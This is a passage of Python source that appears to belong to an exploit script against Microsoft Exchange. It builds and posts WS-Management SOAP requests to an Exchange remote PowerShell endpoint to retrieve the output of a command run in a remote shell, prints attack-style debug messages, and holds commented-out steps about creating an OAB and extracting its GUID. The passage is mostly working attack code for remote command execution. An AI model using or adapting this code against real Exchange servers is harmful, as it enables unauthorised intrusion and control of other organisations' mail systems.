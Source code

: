 ```python
	request_data = """<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd">
	<s:Header>
		<a:To>https://exchange16.domaincorp.com:443/PowerShell?PSVersion=5.1.19041.610</a:To>
		<a:ReplyTo>
			<a:Address s:mustUnderstand="true">http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</a:Address>
		</a:ReplyTo>
		<a:Action s:mustUnderstand="true">http://schemas.microsoft.com/wbem/wsman/1/windows/shell/Receive</a:Action>
		<w:MaxEnvelopeSize s:mustUnderstand="true">512000</w:MaxEnvelopeSize><a:MessageID>uuid:{MessageID}</a:MessageID>
		<w:Locale xml:lang="en-US" s:mustUnderstand="false" />
		<p:DataLocale xml:lang="en-US" s:mustUnderstand="false" />
		<p:SessionId s:mustUnderstand="false">uuid:{SessionId}</p:SessionId>
		<p:OperationID s:mustUnderstand="false">uuid:{OperationID}</p:OperationID>
		<p:SequenceId s:mustUnderstand="false">1</p:SequenceId>
		<w:ResourceURI xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd">http://schemas.microsoft.com/powershell/Microsoft.Exchange</w:ResourceURI>
		<w:SelectorSet xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd">
			<w:Selector Name="ShellId">{ShellId}</w:Selector>
		</w:SelectorSet>
		<w:OperationTimeout>PT180.000S</w:OperationTimeout>
	</s:Header>
	<s:Body>
		<rsp:Receive xmlns:rsp="http://schemas.microsoft.com/wbem/wsman/1/windows/shell"  SequenceId="0">
			<rsp:DesiredStream CommandId="{CommandId}">stdout</rsp:DesiredStream>
		</rsp:Receive>
	</s:Body>
</s:Envelope>""".format(SessionId=SessionId, MessageID=MessageID, OperationID=OperationID, ShellId=ShellId, CommandId=CommandId)
	print("[!!!] ABOUT TO SEND POST REQ FOR GETTING CMD OUTPUT")
	r = sendPostRequest(request_data)
	print("\n\n===========RESPONSE===========\n\n")
	print(r.text)
	if r.status_code == 200:
		print("\n\nresponse status code is success\n\n")
		doc = xml.dom.minidom.parseString(r.text)
		elements = doc.getElementsByTagName("rsp:Stream")
		if len(elements) == 0:
			print_error_and_exit("get_command_output failed with no Stream return", r)
		return True
		# data = elements[0].firstChild.nodeValue
		# rawdata = base64.b64decode(data)
		# ret = re.search('<G N="Guid">(.*)</G>', rawdata)
		# if ret is None:
		# 	print_error_and_exit("get_command_output failed with no oab_guid return,\n\t\trawdata: " + repr(rawdata), r)
		# oab_guid = ret.group(1)
		# # print '[+] Found guid: ', oab_guid
		# print ('[+] Create new OAB success, got OAB_GUID')
		# return oab_guid
	else:
		print_error_and_exit("get_command_output failed", r)

def mainFunc():
	SessionId = uuid.uuid4()
	RPID = uuid.uuid4()
	ShellId = sendFirstSoapRequest(SessionId, RPID)
	print("ShellId = %s" %  ShellId)
```
